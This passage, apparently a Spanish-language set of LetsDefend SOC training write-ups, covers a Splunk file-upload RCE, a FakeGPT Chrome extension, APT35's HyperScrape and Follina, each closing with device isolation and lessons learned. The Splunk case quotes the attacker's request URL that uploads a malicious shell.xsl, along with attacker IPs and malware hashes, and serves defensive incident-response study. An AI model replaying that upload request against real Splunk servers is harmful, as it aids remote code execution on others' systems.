    - Posible pérdida de confidencialidad, integridad y disponibilidad de la información.
6. **Acciones de Respuesta y Mitigación:**
    - Investigación exhaustiva del incidente para identificar la causa raíz y los vectores de ataque utilizados por el intruso.
    - Aplicación de medidas correctivas, como parches de seguridad, actualizaciones de software y configuraciones seguras, para prevenir futuros ataques de ejecución remota de código.
    - Notificación a las partes afectadas, incluyendo administradores de sistemas y usuarios finales, sobre el incidente y las medidas tomadas para mitigar su impacto.
    - Auditoría y revisión de las políticas de seguridad de Splunk Enterprise y otros sistem
## Criticidad 

La ejecución remota de código puede permitir a un atacante comprometer completamente el sistema afectado, lo que podría resultar en la pérdida de datos críticos, interrupción de los servicios, daño a la integridad de los sistemas y la posible propagación de amenazas a otros sistemas interconectados.
## Descripción del incidente 

Se ha detectado una subida malciosa de archivo a Splunk y un intento deejecutar el archivo en al url ````
```
http://18.219.80.54:8000/en-US/splunkd/__upload/indexing/preview?output_mode=json&props.NO_BINARY_CHECK=1&input.path=shell.xsl
Trigger File Path :
/opt/splunk/var/run/splunk/dispatch/1700556926.3/shell.xsl
```

La IP de origen es 180.101.88.240(externa) y la de destino es nuestro servidor en 172.16.20.13.

La IP parece claramente maliciosa:


Tras analizar el tráfico vemos la subida del archivo y varias conexiones provenientes de un proceso llamado shell.sh(posiblemente malicioso).


También vemos ejecución de comandos un poco extraña como la creación de otro usuario posiblemente usado para la persistencia en el sistema:


## Acciones tomadas

Con esta información vamos a tomar la decisión de bloquear el dispositivo para su aislamiento.


Y escalaremos a Tier 2 ya que el ataque ha tenido éxito.

Confirmación de decisiones:


## Acción específica

Bloqueo del dispositivo ya que ha sido comprometido.
## Lecciones aprendidas y mejoras

Se debería de usar listas de direcciones IP maliciosas conocidas y bloquear el tráfico proveniente de ellas con un firewall.
## Preguntas

- **1.a** ¿Cuál es el proceso de investigación seguido para investigar el incidente y que evidencias han sido clave para la resolución del incidente? 

Examinar la petición, encontrar indicios de ejecución remota y revisar logs de comandos ejecutados en el sistema.

- **2.a** Durante la resolución del incidente ¿has tenido que realizar algún tipo de actuación para el reestableciciomiento de servicios afectados por el incidente, con el objetivo de volver a la normalidad?
No

- **3.a** ¿Qué acciones/actuaciones destacadas se han realizado para solucionar el incidente? **
Bloqueo del dispositivo comprometido.

- **4.a** Seguro que en el proceso de análisis para obtener un registro de lecciones aprendidas anterior, has pensado como evitar que una situación similar se vuelva a repetir. ¿Qué actuaciones has decidido para evitar que se pueda dar una situación similar?
Se debería de usar listas de direcciones IP maliciosas conocidas y bloquear el tráfico proveniente de ellas con un firewall.
# SOC202 - FakeGPT Malicious Chrome Extension
## Taxonomía

1. **Categoría del Incidente:**
    - Seguridad de Aplicaciones y Navegadores Web.
2. **Tipo de Incidente:**
    - Contenido dañino debido a distribución de malware, en este caso una extensión maliciosa para navegador web (Chrome).
3. **Descripción del Incidente:**
    - Se ha detectado la presencia de una extensión maliciosa para el navegador web Google Chrome, denominada FakeGPT, que se distribuye de manera fraudulenta y que puede representar una amenaza para la seguridad y privacidad de los usuarios afectados.
4. **Etapas del Incidente:**
    - **Descubrimiento de la Extensión Maliciosa:**
        - Se identifica la presencia de la extensión maliciosa FakeGPT en el entorno de la red, ya sea por medio de análisis automatizados de seguridad, reportes de usuarios, o detecciones de herramientas de seguridad.
    - **Análisis de la Extensión:**
        - Se lleva a cabo un análisis detallado de la extensión maliciosa para comprender su funcionamiento, características, y posibles riesgos para la seguridad y privacidad de los usuarios.
    - **Investigación de la Fuente de Distribución:**
        - Se investiga la fuente y los métodos utilizados para distribuir la extensión maliciosa, como campañas de phishing, sitios web comprometidos, o técnicas de ingeniería social.
    - **Identificación de Impacto Potencial:**
        - Se evalúa el impacto potencial de la extensión maliciosa en la seguridad y privacidad de los usuarios, así como en la integridad de los sistemas afectados.
5. **Impacto Potencial:**
    - Compromiso de la privacidad y seguridad del usuario: La extensión maliciosa puede recopilar información confidencial del usuario, como contraseñas, historial de navegación, o datos de tarjetas de crédito.
    - Riesgo de propagación de malware: La extensión maliciosa puede servir como puerta de entrada para la instalación y ejecución de malware adicional en los sistemas afectados.
    - Pérdida de control sobre el navegador: La extensión maliciosa puede modificar la configuración del navegador, redirigir tráfico web, o realizar otras acciones no autorizadas sin el consentimiento del usuario.
6. **Acciones de Respuesta y Mitigación:**
    - Eliminación de la extensión maliciosa: Se toman medidas inmediatas para desinstalar y eliminar la extensión maliciosa de los sistemas afectados.
    - Notificación a los usuarios afectados: Se advierte a los usuarios sobre la presencia y los riesgos asociados con la extensión maliciosa, proporcionando orientación sobre cómo protegerse y mitigar los efectos del incidente.
    - Análisis de seguridad adicional: Se realizan análisis adicionales para identificar posibles brechas de seguridad adicionales y prevenir futuros incidentes similares.
    - Reforzamiento de políticas de seguridad: Se revisan y mejoran las políticas de seguridad para prevenir la instalación y ejecución de extensiones maliciosas en el futuro.

## Criticidad 

En el caso de que efectivamente sea un malware, esto afecta a tres puntos esenciales:

-  **Amenaza a la Privacidad y Seguridad del Usuario:**  Esto podría llevar a robos de identidad, acceso no autorizado a cuentas en línea y otros tipos de fraude.
-  **Potencial para la Propagación de Malware:** Puede ser una puerta de entrada para la instalación y ejecución de malware adicional en los sistemas afectados.
 - Pérdida de Control sobre el Navegador
 Por lo que la criticidad puede variar entre media y muy alta.
## Descripción del incidente 

La alarma salta tras la detección de la instalación de una extensión de chrome sospechosa, en este caso la extensión se encuentra en :
```
C:\Users\LetsDefend\Download\hacfaophiklaeolhnmckojjjjbnappen.crx
```

La confirmación del uso de la extensión es:
```
chrome.exe --single-argument C:\Users\LetsDefend\Download\hacfaophiklaeolhnmckojjjjbnappen.crx

Hash:  
7421f9abe5e618a0d517861f4709df53292a5f137053a227bfb4eb8e152a4669
```

Y el equipo afectado es el de Samuel, con la IP 172.16.17.173.

Hemos buscado entre los logs y decidimos que la razón es debido a trafico o extensiones desconocidas, ahora procedemos a buscar el hash en virus total y vemos que no hay detecciones:


Aún así en las notas de comunidad vemos un artículo sobre la extensión donde se nos analiza el código y llegamos a la conclusión de que recoge datos y los envía a servidores de C2.


Vemos dos conexiones realizadas sospechosas:


Analizando la ip 52.76.101.124 encontramos que el ataque ha sido exitoso y el dispositivo infectado ha realizado conexiones a los servidores C2.


## Acciones tomadas

Tras determinar que el dispositivo ha sido infectado se procede al bloqueo del dispositivo:


Entre los artefactos tenemos:


Se confirma nuestra sospecha:


## Acción específica

En este caso la acción ha sido bloquear el dispositivo infectado.
## Lecciones aprendidas y mejoras

En este caso el bloqueo de extensiones ya eliminadas por el marketplace de chrome debería de ser automático ya que al buscar la extensión nos encontramos que está eliminada ya que se descubrió que era malware.
## Preguntas

- **1.a** ¿Cuál es el proceso de investigación seguido para investigar el incidente y que evidencias han sido clave para la resolución del incidente? 
En este caso primero s ha realizado una investigación sobre el supuesto malware para confirmar si es dañino o no, tras esto se ha confirmado el compromiso del sistema mirando los logs de red en busca de conexiones externas y tras la confirmación se ha bloqueado el dispositivo.

- **2.a** Durante la resolución del incidente ¿has tenido que realizar algún tipo de actuación para el reestableciciomiento de servicios afectados por el incidente, con el objetivo de volver a la normalidad?
No.
- **3.a** ¿Qué acciones/actuaciones destacadas se han realizado para solucionar el incidente? **
Solo el bloqueo del dispositivo.
- **4.a** Seguro que en el proceso de análisis para obtener un registro de lecciones aprendidas anterior, has pensado como evitar que una situación similar se vuelva a repetir. ¿Qué actuaciones has decidido para evitar que se pueda dar una situación similar?
Establecer controles sobre la instalación de extensiones en Chrome a nivel de sistema.

# SOC250 - APT35 HyperScrape Data Exfiltration Tool Detected
## Taxonomía

1. **Categoría del Incidente:**
    - Seguridad de la Información
2. **Tipo de Incidente:**
    - Obtención de información, detección de herramienta de exfiltración de datos (HyperScrape) asociada a APT35.
3. **Descripción del Incidente:**
    - Se ha detectado la presencia de una herramienta de exfiltración de datos conocida como HyperScrape, la cual se ha asociado con el actor de amenazas APT35. Esta herramienta se utiliza para la extracción de datos de forma furtiva y no autorizada desde sistemas comprometidos hacia ubicaciones controladas por los atacantes. Afectando gravemente a la confidencialidad de la información.
4. **Etapas del Incidente:**
    - **Detección de Actividad Anómala:**
        - Se identifica actividad inusual o sospechosa en la red, como transferencias de datos no autorizadas o comportamiento anómalo en sistemas comprometidos.
    - **Análisis de la Herramienta de Exfiltración:**
        - Se lleva a cabo un análisis detallado de la herramienta HyperScrape para comprender su funcionamiento, métodos de operación, y características distintivas que la relacionan con el actor de amenazas APT35.
    - **Investigación de Causas Raíz:**
        - Se investigan las posibles causas y puntos de entrada que permitieron la presencia y operación de la herramienta de exfiltración de datos en el entorno de la red, incluyendo vulnerabilidades de seguridad, accesos no autorizados, o fallos en las defensas de seguridad existentes.
    - **Contención y Neutralización:**
        - Se toman medidas inmediatas para contener la actividad de la herramienta de exfiltración, neutralizar la amenaza, y prevenir la pérdida adicional de datos o compromisos de seguridad.
5. **Impacto Potencial:**
    - Pérdida de Datos Confidenciales: La herramienta de exfiltración de datos puede haber permitido la extracción de información sensible o confidencial desde sistemas comprometidos, lo que podría resultar en la pérdida de propiedad intelectual, secretos comerciales, o información financiera.
    - Daño a la Reputación: La detección de una herramienta de exfiltración de datos asociada a un actor de amenazas conocido puede dañar la reputación de la organización afectada, especialmente si se revela públicamente y se asocia con incidentes de seguridad previos.
    - Riesgo de Continuación del Compromiso: La presencia de una herramienta de exfiltración de datos indica que los sistemas afectados pueden estar comprometidos y ser objeto de futuros ataques o actividades maliciosas por parte de los atacantes.
6. **Acciones de Respuesta y Mitigación:**
    - Investigación Forense: Se realiza una investigación forense exhaustiva para determinar la naturaleza y el alcance del compromiso, identificar los sistemas afectados, y recopilar evidencia para futuras acciones legales o de seguimiento.
    - Eliminación de la Herramienta Maliciosa: Se toman medidas para eliminar la herramienta de exfiltración de datos y cualquier otro malware asociado de los sistemas comprometidos, asegurando su limpieza y restaurando la integridad del entorno.
    - Reforzamiento de la Seguridad: Se revisan y mejoran las defensas de seguridad para prevenir futuros incidentes similares, incluyendo la aplicación de parches de seguridad, actualizaciones de software, y la implementación de medidas adicionales de detección y protección contra amenazas avanzadas.
## Criticidad 

La presencia de una herramienta de exfiltración de datos indica que información sensible o confidencial puede haber sido extraída de los sistemas comprometidos. Esto puede incluir datos corporativos, secretos comerciales, información financiera, datos personales de empleados o clientes, entre otros. La pérdida de estos datos puede tener graves repercusiones para la organización, incluyendo la pérdida de confianza de los clientes, sanciones legales y financieras, y daños a la reputación.
## Descripción del incidente 

El grupo Charming Kitten ha sido observado usando una nueva herramienta llamada Hyperscrape para extraer correos electrónicos de los buzones de correo de sus víctimas. En este caso se ha encontrado la herramienta en el dispositivo de Arthur, con ip 172.16.17.72 , el archivo se encuentra en ```C:\Users\LetsDefend\Downloads\EmailDownloader.exe``` con hash:
``cd2ba296828660ecd07a36e8931b851dda0802069ed926b3161745aae9aa6daa``

Encontramos la descarga en los logs:


El reporte de la IP de descarga indica una detección:


Encontramos un log de inicio de sesión desde una IP externa justo antes de la descarga:


Tras investigar la provenencia del inicio de sesión determinamos que efectivamente está relacionado con el ATP Charming Kitten.


Después de buscar el hash concluimos que es malicios:


## Acciones tomadas

Con toda la información recogida anteriormente procedemos a la contención del dispositivo.


Entre los artefactos tenemos:


Confirmación:


## Acción específica

En este caso solo se ha necesitado bloquear el dispositivo.
## Lecciones aprendidas y mejoras

Se ha permitido un inicio de sesión desde una IP asociada con una APT, algo que no debería permitirse usando listas negras de IP en el firewall.
## Preguntas

- **1.a** ¿Cuál es el proceso de investigación seguido para investigar el incidente y que evidencias han sido clave para la resolución del incidente? 
Examinar el hash del archivo, la ip de inicio de sesión, buscar si se ha propagado o si ha conseguido filtrar datos, todo esto usando logs de red.

- **2.a** Durante la resolución del incidente ¿has tenido que realizar algún tipo de actuación para el reestableciciomiento de servicios afectados por el incidente, con el objetivo de volver a la normalidad?
No.

- **3.a** ¿Qué acciones/actuaciones destacadas se han realizado para solucionar el incidente? **
El bloqueo del dispositivo.

- **4.a** Seguro que en el proceso de análisis para obtener un registro de lecciones aprendidas anterior, has pensado como evitar que una situación similar se vuelva a repetir. ¿Qué actuaciones has decidido para evitar que se pueda dar una situación similar?
Añadir IPs relacionadas con APT a una lista negra y no permitir a los usuarios ejecutar cualquier aplicación en sus sistemas.

# SOC173 - Follina 0-Day Detected
## Taxonomía

1. **Categoría del Incidente:**
    - Seguridad de Sistemas Operativos / Seguridad de Red.
2. **Tipo de Incidente:**
    - Detección de Vulnerabilidad de Ejecución Remota de Código (RCE) en Microsoft Windows Support Diagnostic Tool (MSDT).
3. **Descripción del Incidente:**
    - Se ha detectado una vulnerabilidad de ejecución remota de código (RCE) en la herramienta de diagnóstico de soporte de Microsoft Windows (MSDT), con el identificador CVE-2022-30190. Esta vulnerabilidad permite a un atacante ejecutar código arbitrario de forma remota en sistemas afectados, lo que podría resultar en la toma de control total del sistema y la realización de actividades maliciosas, afectando de forma crítica a la confidencialidad, integridad e incluso disponibilidad de la información.
4. **Etapas del Incidente:**
    - **Descubrimiento de la Vulnerabilidad:**
        - Se identifica la existencia de una vulnerabilidad de ejecución remota de código en MSDT, posiblemente a través de informes de seguridad, análisis de investigadores de seguridad, o detecciones de sistemas de detección de amenazas.
    - **Análisis de la Vulnerabilidad:**
        - Se realiza un análisis detallado de la vulnerabilidad CVE-2022-30190 para comprender su alcance, impacto potencial, y posibles vectores de ataque utilizados por los atacantes para explotarla.
    - **Investigación de Causas Raíz:**
        - Se investigan las posibles causas subyacentes que permitieron la existencia de la vulnerabilidad en MSDT, incluyendo errores de diseño, implementación incorrecta de funciones de seguridad, o falta de actualizaciones de seguridad adecuadas.
    - **Desarrollo de Parches y Soluciones:**
        - Se desarrollan y distribuyen parches de seguridad por parte del proveedor para corregir la vulnerabilidad CVE-2022-30190 en MSDT, así como posibles soluciones temporales o mitigaciones para reducir el riesgo de explotación hasta que se apliquen los parches.
5. **Impacto Potencial:**
    - Toma de Control del Sistema: La explotación exitosa de la vulnerabilidad CVE-2022-30190 permite a los atacantes ejecutar código arbitrario en sistemas afectados, lo que podría resultar en la toma de control total del sistema y la realización de actividades maliciosas.
    - Compromiso de la Confidencialidad e Integridad de los Datos: Los atacantes pueden aprovechar la vulnerabilidad para acceder, modificar o eliminar información sensible o crítica almacenada en los sistemas afectados, comprometiendo la confidencialidad e integridad de los datos.
    - Riesgo de Propagación de Malware: La explotación de la vulnerabilidad puede facilitar la instalación y ejecución de malware adicional en sistemas comprometidos, lo que podría resultar en la propagación de amenazas a otros sistemas interconectados.
6. **Acciones de Respuesta y Mitigación:**
    - Aplicación de Parches de Seguridad: Se insta a los usuarios y administradores a aplicar los parches de seguridad proporcionados por Microsoft para corregir la vulnerabilidad CVE-2022-30190 en MSDT, asegurando así la protección de los sistemas afectados.
    - Monitorización y Detección: Se implementan medidas adicionales de monitorización y detección para identificar posibles intentos de explotación de la vulnerabilidad, así como para mitigar cualquier actividad maliciosa asociada con ella.
    - Divulgación Responsable: Se sigue un proceso de divulgación responsable para informar a los usuarios, administradores y al público en general sobre la existencia y el impacto de la vulnerabilidad CVE-2022-30190, así como para proporcionar orientación sobre las medidas de mitigación y protección disponibles.

## Criticidad 

La vulnerabilidad de ejecución remota de código (RCE) permite a los atacantes ejecutar código arbitrario en sistemas afectados, lo que podría resultar en la toma de control completa del sistema. Esto significa que los atacantes podrían realizar una amplia gama de acciones maliciosas, incluyendo robo de datos, instalación de malware, modificación de configuraciones del sistema, entre otras.
## Descripción del incidente 

La alerta se desata a través de la ejecución de msdt.exe tras la apertura de un documento Office, teniendo como hash:
```52945af1def85b171870b31fa4782e52```

En el dispositivo JonasPRD con IP 172.16.17.39.

Empezamos determianndo si es malware y VirusTotal nos lo confirma:


En este caso vemos que hace peticiones HTTP a las siguientes URL:


Se confirma que se han realizado las peticiones a las URL en los logs de red y por tanto no ha entrado en cuarentena y se ha accedido a los servidores C2:


Buscamos el método de infección y encontramos el siguiente mail:


## Acciones tomadas

Con toda la evidencia anterior se determina que hay que bloquear el dispositivo ya que se trata de un positivo.


Entre los artefactos tenemos:


Se confirman nuestras decisiones:


## Acción específica

En este caso hemos buscado la vía de infección para saber como ha llegado el ejecutable ahí,ya que un documento de texto que ejecuta otro binario suele venir por correo electrónico, tras confirmar que era malicioso se procede al bloqueo del dispositivo.
## Lecciones aprendidas y mejoras

Necesitamos charlas de concienciación para empleado de forma que no ejecuten archivos recibidos por mail sin verificar el remitente.
## Preguntas

- **1.a** ¿Cuál es el proceso de investigación seguido para investigar el incidente y que evidencias han sido clave para la resolución del incidente? 
Se investiga si el archivo es malware, tras esto se detecta el vector de atasque y su comportamiento, se confirma que se  ha ejecutado correctamente y se bloquea el dispositivo. Las evidencias que soportan esto son los registros de mail, los logs de red y de sistema.

- **2.a** Durante la resolución del incidente ¿has tenido que realizar algún tipo de actuación para el reestableciciomiento de servicios afectados por el incidente, con el objetivo de volver a la normalidad?
No.

- **3.a** ¿Qué acciones/actuaciones destacadas se han realizado para solucionar el incidente? **
Bloquear el dispositivo y buscar el vector de infección.

- **4.a** Seguro que en el proceso de análisis para obtener un registro de lecciones aprendidas anterior, has pensado como evitar que una situación similar se vuelva a repetir. ¿Qué actuaciones has decidido para evitar que se pueda dar una situación similar?
Bloquear el dominio de donde se envió el mail e impartir charlas de concienciación a empleados.
